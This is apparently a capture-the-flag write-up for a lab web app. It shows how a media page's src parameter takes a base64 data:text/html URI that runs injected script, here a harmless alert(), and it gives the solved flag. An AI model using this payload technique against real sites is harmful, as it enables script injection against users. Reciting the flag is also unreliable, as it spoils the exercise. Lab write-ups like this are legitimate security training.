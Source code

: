 # DATA_URI_XSS
XSS using data URI. XSS is a type of security vulnerability found in web applications that enables malicious attackers to inject client-side script into web pages viewed by other users. Our website is vulnerble to such an attack.     


## Example
If we got the <a href=">home<a/> we see a number of images, one of those has a link to that redirects us to <a href="http://192.168.43.251/?page=media&src=nsa">this media page</a> where we are presented with a page that has a this <a href="http://192.168.43.251/images/nsa_prism.jpg">link</a>. In essence this image is sourced using data uri which on inspection can be manipulated.

## Exploit
You can either edit the source on the actual element or on the url bar, we'll use the url bar. What we want to do is encode a js script: 
```bash
 (<script>alert('It is about to go down')</script>)
``` 

When we base 64 encode our js sting using a python script we get this 

```bash
 PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ 
``` 

We can append that to the src as: 

```bash
 data:text/html;base64,PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ 
``` 

This now allows us to get our flag:928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d.

## Remedy
* Sanitise all client side input to make avoid such attacks.

## Resources
* https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/
* https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris